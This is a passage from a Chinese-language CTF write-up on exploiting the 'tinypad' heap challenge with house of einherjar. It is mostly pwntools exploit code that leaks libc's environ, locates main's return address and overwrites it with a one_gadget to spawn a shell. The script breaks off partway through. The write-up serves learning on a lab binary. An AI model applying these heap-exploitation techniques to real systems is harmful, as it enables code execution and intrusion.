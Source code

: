 

```python
edit(4,b'd'*0x20+p64(0)+p64(0x101)+p64(main_arena+88)+p64(main_arena+88))
```

接着这一句不是恢复 fd 和 bk，而是为了保持 fd 和 bk 不变、恢复 fakechunk 的 size，因为在 house of einherjar 之后 free 完 chunk2 向前合并到 tinypad 的 fakechunk 的时候，会把 fakechunk 的 size 改成 chunk2 的 prev_size，再次申请的时候会报错`*** double free or corruption (!prev) ***`



接下来就是改 chunk 指针为 libc 中的 environ 地址，

往里面取一次值，通过动调算偏移从而获得 main 函数的返回地址

```python
fake_pad =b'f'*(0x100-0x20-0x10)+b'a'*8+p64(environ_pointer)+b'a'*8+p64(0x602148)
# get a fake chunk
add(0x100 - 8, fake_pad)

link.recvuntil(b' # CONTENT: ')
environ_addr = link.recvuntil(b'\n', drop=True).ljust(8,b'\x00')
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
print(hex(main_ret_addr))

# set memo[0].content point to main_ret_addr
edit(2, p64(main_ret_addr))
# overwrite main_ret_addr with one_gadget addr
edit(1, p64(one_gadget_addr))
link.interactive()
```



最开始自己做的时候遇到了一点问题：

看每个 WP 的具体操作都不太一样，我上面泄露完 libc 地址和堆地址之后，再把全部 chunk free 掉之后刚准备开始跟着 WP 继续 stage2 house of einherjar 的时候却发现申请 chunk 的时候会报错...

泄露 libc 地址跟堆地址应该没有动到堆指针的啊...

> 莫名其妙放了一天不理之后又没有报错了...接着发力！
>

接着就是利用程序输入的流程（它先把输入的内容存在 tinypad 的位置，然后再用 strcpy 拷进 chunk 里面，所以输出会被零字节截断），在 tinypad 伪造一个 fakechunk，在 chunk2 释放的时候向前合并，让包含 tinypad 的 chunk 进入 unsortedbin 里面，后面再申请出来



可以执行到 onegadget 的 exp：（改了一下 CTFWiki 的 exp，可以执行到 onegadget 结果发现 2.23-0ubuntu3 版本下 onegadget 打不通...）

在申请到位于 tinypad 的 fakechunk 之后，只要不再申请或者释放（不动堆的东西），就可以随意使用 edit 函数来修改 main 函数的返回地址，不用在乎 edit 的时候 tinypad 上面 fakechunk 被覆盖，可以利用这个来写 rop 链来 getshell

```python
#!/usr/bin/env python3

from pwn import *

link = process("./tinypad")
libc = ELF('./glibc/2.23-0ubuntu3_amd64/libc.so.6')
main_arena_offset = 0x3c3b20

def add(size, content):
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'a')
    link.recvuntil(b'(SIZE)>>> ')
    link.sendline(str(size))
    link.recvuntil(b'(CONTENT)>>> ')
    link.sendline(content)

def edit(idx, content):
```